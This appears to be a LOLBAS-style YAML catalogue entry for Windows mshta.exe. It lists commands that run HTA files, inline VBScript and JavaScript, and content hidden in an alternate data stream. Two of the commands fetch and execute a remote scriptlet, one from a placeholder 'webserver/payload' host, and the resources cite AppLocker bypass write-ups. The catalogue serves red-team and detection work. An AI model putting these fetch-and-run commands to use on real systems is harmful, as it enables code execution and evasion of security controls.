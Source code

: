 ```yaml
---
Name: mshta.exe
Description: Execute, Read ADS
Author: ''
Created: '2018-05-25'
Categories: []
Commands:
  - Command: mshta.exe evilfile.hta
    Description: Opens the target .HTA and executes embedded JavaScript, JScript, or VBScript.
  - Command: mshta.exe vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))
    Description: Executes VBScript supplied as a command line argument.
  - Command: mshta.exe javascript:a=GetObject("script:https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payload/Mshta_calc.sct").Exec();close();
    Description: Executes JavaScript supplied as a command line argument.
  - Command: mshta.exe "C:\ads\file.txt:file.hta"
    Description: Opens the target .HTA and executes embeded JavaScript, JScript, or VBScript.
Full Path:
  - C:\Windows\System32\mshta.exe
  - C:\Windows\SysWOW64\mshta.exe
Code Sample: []
Detection: []
Resources:
  - https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Execution/Mshta.md
  - https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_4
  - https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Payloads/mshta.sct
  - https://oddvar.moe/2017/12/21/applocker-case-study-how-insecure-is-it-really-part-2/
  - https://oddvar.moe/2018/01/14/putting-data-in-alternate-data-streams-and-how-to-execute-it/
Notes: Thanks to Casey Smith - @subtee, Oddvar Moe - @oddvarmoe
---
```

